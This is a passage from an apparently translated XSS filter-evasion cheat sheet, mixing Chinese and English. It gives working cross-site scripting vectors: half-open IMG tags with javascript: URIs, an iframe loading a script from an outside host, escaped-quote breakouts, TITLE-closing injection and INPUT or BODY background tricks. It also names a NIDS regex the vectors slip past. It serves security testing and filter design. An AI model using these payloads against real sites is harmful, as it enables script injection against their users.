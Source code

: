 不同于 Firefox ，ie渲染引擎不会加入额外的数据到你的页面。但是它允许javascript指定在图片标签中这是有用的作为一个xss向量，因为它不需要一个结束的尖括号。你可以插入这个xss向量在任何html标签后面。甚至没有用">"关闭标签。 A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: /((\%3D)|(=))[^\n]*((\%3C)|<)[^\n]+((\%3E)|>)/ because it doesn't require the end ">". 这也是有效的去对付真实的xss过滤器，我曾经碰见过试用半开的<IFRAME 标签替代 <IMG 标签，

```
<IMG SRC="javascript:alert('XSS')"
```

* * *

### 双开尖括号

使用一个开始尖括号(<)在向量结尾代替一个关闭尖括号（>）会有不同的影响在 Netscape Gecko 的渲染中。 Without it, Firefox will work but Netscape won't。

```
<iframe src=http://ha.ckers.org/scriptlet.html <
```

* * *

### 转义javascript中的转义

当一个应用程序是输出用户自定义的信息到javascript代码中，例如： <SCRIPT>var a="$ENV{QUERY_STRING}";</SCRIPT>。如果你想插入你自己的javascript代码进入它，但是服务器转义了其中的某些引号，这时你需要通过转义被转义的字符来绕过它。从而使最终的输入代码类似于<SCRIPT>var a="\";alert('XSS');//";</SCRIPT> 。最终\转义了双引号前被服务器添加的\，而双引号则不会被转义，从而触发xss向量。xss定位器使用这个方法。

```
\";alert('XSS');//
```

* * *

### 闭合title标签

这是一个简单的xss向量，可以引入一个恶意的xss攻击。 _译者注：titile标签内部不支持html代码，所有内容会被自动转义为普通字符。_

```
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

* * *

### INPUT image

```
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```

* * *

### BODY image

```
<BODY BACKGROUND="javascript:alert('XSS')">
```

* * *

### IMG DYNSRC(视频剪辑)
